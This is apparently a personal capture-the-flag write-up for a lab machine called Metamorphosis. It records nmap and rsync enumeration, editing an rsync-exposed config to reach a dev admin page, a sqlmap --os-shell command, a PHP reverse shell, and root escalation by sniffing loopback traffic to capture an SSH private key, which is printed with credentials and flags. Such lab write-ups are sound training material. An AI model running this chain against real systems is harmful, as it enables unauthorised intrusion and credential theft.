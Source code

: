 # Metamorphosis
2021-23-09

## Initial info

## Recon

### Nmap

```PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-09-23T19:54:04+00:00
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time:
|   date: 2021-09-23T19:54:04
|_  start_date: N/A
```

### smbclient -L $IP
```
Password for [MYGROUP\lerusse]:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (incognito server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------
smb1cli_req_writev_submit: called for dialect[SMB3_11] server[10.10.121.253]

	Workgroup            Master
	---------            -------
smb1cli_req_writev_submit: called for dialect[SMB3_11] server[10.10.121.253]
```
### Rsync enum
```bash
rsync -rdt rsync://10.10.121.253:873
Conf    All Confs
```
```bash
rsync -rdt rsync://10.10.121.253:873/Conf

drwxrwxrwx          4,096 2021/04/10 16:03:08 .
-rw-r--r--          4,620 2021/04/09 16:01:22 access.conf
-rw-r--r--          1,341 2021/04/09 15:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 16:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 16:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 16:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 15:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 15:56:56 php.ini
-rw-r--r--            320 2021/04/09 16:03:16 ports.conf
-rw-r--r--            589 2021/04/09 16:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 16:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 16:00:59 smb.conf
-rw-rw-r--             72 2021/04/10 16:03:06 webapp.ini
```
## Findings

### Directories using feroxbuster
- /admin (403)
- /admin/index.php (403)
    - This comment was found
    ```html
    <!-- Make sure admin functionality can only be used in development environment. -->
    ```
    - ~~Maybe using `dev.XXXX` subdomain?~~ nope
- /admin/config.php (200 but empty)
### Domains

### Files
webapp.ini:
    - env = prod
    - user = tom
    - password = theCat
### NetBIOS name
INCOGNITO

### Samba shares
IPC$

## Exploits
### Initial foothold
1. We can replace `env = prod` to `env = dev` to access the dev website environment via rsync
    1. We can now use the `tom` credentials to login to the admin page.
    2. The page doesn't give much so we'll intercept the request in burpsuite and sqlmap the result because i'm lazy.
2. We can get a shell running `sqlmap -r req.txt --level 2 --risk 2 --os-shell`
    1. We can then upload a php revshell
3. We finally start a pwncat listener

### Privesc
Our first shell is as `www-data`. The known password for user `tom` doesn't work.

We then run pspy64 to view what's running since there's nothing obvious yet. 

```
2021/09/23 20:41:09 CMD: UID=0    PID=821    | /usr/bin/python3 /root/serv.py
2021/09/23 20:42:01 CMD: UID=0    PID=3004   | /bin/sh -c /root/req.sh
```

After f*cking arround we find that we can use tcpdump. At this point i guess it's not for nothing and i'll try to search the packets to find somethjing useful.

`tcpdump -i any -s 0 -w data.pcap`

From
`12	99.611746	127.0.0.1	127.0.0.1	HTTP	1884		HTTP/1.0 200 OK  (text/html)`
We find the following data which is an id_rsa for ssh connection ~~(as root?)~~ as root
```
GET /?admin=ScadfwerDSAd_343123ds123dqwe12 HTTP/1.1
Host: 127.0.0.1:1027
User-Agent: curl/7.58.0
Accept: */*

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1678
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Thu, 23 Sep 2021 20:50:01 GMT

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyLHluXzbi43DIBFC47uRqkXTe72yPGxL+ImFwvOw8D/vd9mj
rt5SXjXSVtn6TguV2SFovrTlreUsv1CQwCSCixdMyQIWCgS/d+LfUyO3SC4FEr+k
wJ0ALG6wdjmHdRDW91JW0pG9Q+nTyv22K0a/yT91ZdlL/5cVjGKtYIob/504AdZZ
5NyCGq8t7ZUKhx0+TuKKcr2dDfL6rC5GBAnDkMxqo6tjkUH9nlFK7E9is0u1F3Zx
qrgn6PwOLDHeLgrQUok8NUwxDYxRM5zXT+I1Lr7/fGy/50ASvyDxZyjDuHbB7s14
K2HI32lVrx8u4X9Y2zgIU/mlIjuUtTyIAH4kswIDAQABAoIBAQCcPUImIPmZrwcU
09tLBx7je/CkCI3VVEngds9XcfdxUZTPrPMsk490IFpbmt6uG37Qxp2QuauEsUEg
v0uxCbtHJSB169XUftXAMzLAurFY09rHOcK84HzeGl3t6+N0U2PGrqdAzoyVblef
U9yZ3D46Idj3LS9pDumLnNZ0rZAWcaHW+rgjNqjsoBdQL7HGW+sacDAmZzU/Eti9
mH97NnrxkZuGXcnabXWcUj0HFHssCpF8KFPT3xxwtrqkUTJdMvUxxCD54HXiKM3u
jLXlX+HwHfLKHugYvLUuez7XFi6UP83Hiqmq48kB09sBa2iTV/iy6mHe7iyeELaa
9o7WHF2hAoGBAOPxNWc3vH18qu3WC6eMphPdYOaGBjbNBOgzJxzh/evxpSwRSG9V
63gNgKJ8zccQff/HH1n54VS+tuF7RCykRNb+Ne7K/uiDe1TpOKEMi7XtXOYHy5s1
tykL0OPdSs4hN1jMJjkSfPgdNPmxM3bbJMHDPjdQXAK6DnXmOCETaPAnAoGBAOFm
Fhqv8OREYFq+h1mDzMJn5WsNQQZnvvetJR7g3gfKcVblwMhlh504Tf3o00OGCKC1
L4iWMNb6uitKfTmGNta5X8ChWSVxXbb9fOWCOudNGt/fb70SK6fK9CSl66i/niIw
cIcu0tpS/T3MoqwMiGk87ivtW3bK20TsnY0tX3KVAoGAEeJdBEo1OctMRfjjVTQN
28Uk0zF0z1vqpKVOzk9U8uw0v25jtoiRPwwgKZ+NLa83k5f198NJULLd+ncHdFE3
LX8okCHROkEGrjTWQpyPYajL/yhhaz4drtTEgPxd4CpvA0KRRS0ULQttmqGyngK3
sZQ2D3T4oyYh+FIl2UKCm0UCgYEAyiHWqNAnY02+ayJ6FtiPg7fQkZQtQCVBqLNp
mqtl8e6mfZtEq3IBkAiySIXHD8Lfcd+KZR7rZZ8r3S7L5g5ql11edU08uMtVk4j3
vIpxcIRBGYsylYf6BluHXmY9U/OjSF3QTCq9hHTwDb+6EjibDGVL4bDWWU3KHaFk
GPsboZECgYAVK5KksKV2lJqjX7x1xPAuHoJEyYKiZJuw/uzAbwG2b4YxKTcTXhM6
ClH5GV7D5xijpfznQ/eZcTpr2f6mfZQ3roO+sah9v4H3LpzT8UydBU2FqILxck4v
QIaR6ed2y/NbuyJOIy7paSR+SlWT5G68FLaOmRzBqYdDOduhl061ww==
-----END RSA PRIVATE KEY-----
```
## Crendentials

### Potential users

### User:Pass
- tom:theCat

## Questions
__user.txt__

4ce794a9d0019c1f684e07556821e0b0

__root.txt__

7ffca2ec63534d165525bf37d91b4ff4
